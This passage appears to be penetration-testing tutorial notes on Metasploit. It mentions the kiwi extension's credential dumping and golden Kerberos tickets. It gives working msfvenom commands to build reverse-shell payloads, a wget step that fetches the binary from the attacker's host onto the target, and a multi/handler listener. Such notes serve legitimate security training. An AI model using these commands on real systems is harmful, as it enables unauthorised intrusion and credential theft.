 Meterpreter extensions can be loaded to enrich the capabilities of the Meterpreter shell with additional commands.  
For example, the `kiwi` extension (recent version of Mimikatz) adds commands to obtain various passwords and password hashes from the target machine.  
It can also create a golden Kerberos ticket to get access with any user to any component of the system.


#### MsfVenom

MsfVenom is a tool to create custom payloads, replacing deprecated tools MsfPayload and MsfEncode since 2015.  
It has access to all payloads in Metasploit and can craft payloads in several formats (PHP, exe, py, dll, elf, jar ...) 
for different target systems (windows, linux, apple, android...).

```shell
msfvenom                                  # display the help
msfvenom -l payloads                      # list all payload modules (can also list encoders, nops, formats...)
msfvenom -p php/meterpreter/reverse_tcp   # create a payload based on reverse_tcp
         LHOST=10.10.186.44               # set the local host to connect to 
         -f raw                           # set the format of the payload to create
         -e php/base64                    # set the encoder to use
```

Reverse shells or Meterpreter callbacks in the MsfVenom payloads can be caught on the attacker machine with a **handler**.  
This is done automatically by Metasploit when running an exploit with a payload, but needs to be manually done when running 
a custom payload crafted with MsfVenom.  
To start this handler, we can run the `exploit/multi/handler` module in Metasploit (it needs to use the same local host as in MsfVenom).

For example, we can craft a Meterpreter reverse shell binary for a x86 Linux system with : 
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > reverse_shell.elf
```

We can then transfer this binary to the target system.  
If we have a shell on the system, we can use a python HTTP server locally and `wget` on the target system :
```shell
# on the local machine that ran msfvenom : temporarily create a HTTP web server to expose the reverse shell binary  
python3 -m http.server 9000

# on the target machine : download the reverse shell binary
wget http://<LOCAL_IP>:9000/reverse_shell.elf
```

Before we run the reverse shell on the target machine, we need a handler that can catch it on the local machine.  
We can use the `exploit/multi/handler` module, but we need to set its payload to the same one as the venom reverse shell (otherwise, segmentation fault).  
```shell
# in Metasploit console
use exploit/multi/handler
set LHOST <LOCAL_IP>
set payload linux/x86/meterpreter/reverse_tcp
exploit
```
